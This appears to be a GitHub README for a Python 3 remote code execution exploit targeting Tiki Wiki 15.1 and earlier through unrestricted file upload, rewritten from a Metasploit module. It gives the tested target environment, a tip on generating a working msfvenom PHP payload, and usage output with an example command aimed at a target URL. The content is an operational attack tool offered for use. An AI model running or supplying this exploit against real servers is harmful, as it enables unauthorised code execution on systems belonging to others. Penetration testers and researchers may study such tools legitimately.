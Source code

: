 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki <= 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091).
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested with Python 3.7 on target Tiki Wiki 15.1 running on
* mysql 5.5.50
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

Note the php payload doesn't execute if generated with base64 encoding. Don't use `-e php/base64` with `msfvenom`.

## Usage
```
root@Kali:~/# python3 tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# python3 tikiwiki_15.1_RCE --url 'http://192.168.92.151/tiki' --php payload.php
```
